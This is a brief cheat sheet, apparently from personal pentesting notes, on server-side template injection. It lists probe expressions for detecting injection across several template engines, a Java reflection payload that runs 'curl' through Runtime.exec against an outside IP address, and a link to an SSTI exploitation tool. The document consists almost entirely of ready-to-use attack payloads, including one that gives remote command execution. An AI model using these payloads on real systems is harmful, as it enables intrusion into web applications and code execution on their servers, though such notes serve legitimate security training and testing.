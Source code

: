 # SSTI

### Confirmation

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```

### RCE

```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl%20http://10.10.14.60")}
```

### Tools

```
https://github.com/epinna/tplmap
```
